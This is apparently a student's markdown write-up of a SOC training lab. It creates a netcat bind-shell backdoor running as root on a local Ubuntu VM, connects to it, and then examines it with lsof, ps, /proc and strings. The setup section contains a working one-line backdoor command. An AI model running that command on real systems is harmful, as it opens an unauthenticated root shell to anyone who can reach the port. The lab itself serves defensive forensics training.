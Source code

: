```yaml
---
tags:
  - lab-soc-core-skills
  - linux
  - malware-analysis
  - reverse-engineering
  - live-linux-forensics
date: Feb 07, 2024
---
```


## Linux CLI

> _Disclaimer: The content, procedures, and materials provided in this lab are strictly for educational purposes. Any information acquired is intended solely for advancing knowledge in cybersecurity. All procedures outlined in this lab, along with the VM utilized, were developed and acquired from the [SOC Core Skills](https://www.antisyphontraining.com/on-demand-courses/soc-core-skills-w-john-strand/) course instructed by [John Strand](https://www.sans.org/profiles/john-strand/). It is emphasized that the knowledge gained here will not be applied for any unauthorized or malicious activities._

> In this lab, we'll delve into essential Linux CLI commands for SOC and security analysts while examining a backdoor through the Linux CLI. We'll utilize various basic commands to understand its functionality across three Ubuntu terminals: one for hosting the backdoor, another for establishing a connection, and a third dedicated to analysis.

---

Let’s get started by opening a Terminal as Administrator

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](_attachments/Pasted%20image%2020240211023143.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

The password is adhd.


This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

We will next need to create a fifo backpipe:

<pre>mknod backpipe p</pre>

Next, let's start the backdoor:

`/bin/bash  0<backpipe | nc -l 2222 1>backpipe`

In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the netcat listener. 

Basically, this will create a backdoor listening on port 2222 of our linux system.

![](_attachments/Pasted%20image%2020240211023201.png)

Now, let's open another Ubuntu terminal.  This will be the terminal we connect to the above created backdoor with.

Now we will need to know the IP address of our linux system:

<pre>ifconfig</pre>

![](_attachments/Pasted%20image%2020240211023220.png)

Now, let's connect:

<pre> nc 172.17.32.119 2222</pre>

Remember!!!  Your IP address will be different!!!!

Now, let's type some commands and make sure it is working

<pre>ls</pre>
<pre>whoami</pre>

![](_attachments/Pasted%20image%2020240211023239.png)

As you can see, we are connected to the simple Linux backdoor as root.  Also notice there was not message saying we successfully connected to the backdoor.  It just drops our cursor back to the left side of the screen.

Now, let's open yet another Ubuntu terminal and start our analysis. This means we have one where we created the backdoor, another that connected to it and this third one will be for the analysis.

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt.   We want to be root because looking at network connections and process information systemwide requires root access.  Basically, it is very hard to do your job as a SOC pro without root or admin rights.

Let's start by looking at the network connections with lsof.  When we use lsof, we are looking at open files.  When we use the -i flag we are looking at the open Internet connections.  When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used. Just give us the port number.

<pre>lsof -i -P</pre>


![](_attachments/Pasted%20image%2020240211023305.png)

Now let's dig into the netcat process ID.  We can do this with the lowercase p switch.  This will give us all the open files associated with the listed process ID.

<pre>lsof -p 197</pre>

![](_attachments/Pasted%20image%2020240211023329.png)

Let's look at the full processes.  We can do this with the ps command. We are also adding the aux switches.  This is a for all processes,  u for sorted by user and x to include the processes using a teletype terminal.

<pre>ps aux</pre>

![](_attachments/Pasted%20image%2020240211023353.png)

Let's change directories into the proc directory for that pid.  Remember, proc is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

<pre>cd /proc/[pid]</pre>

We can see a number of interesting directories here:

<pre>ls</pre>

![](_attachments/Pasted%20image%2020240211023415.png)

Remember!!!  Your PID will be different!!!

We can run strings on the exe in this directory.  This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

<pre>strings ./exe</pre>

![](_attachments/Pasted%20image%2020240211023447.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it directly out of memory!

![](_attachments/Pasted%20image%2020240211023505.png)

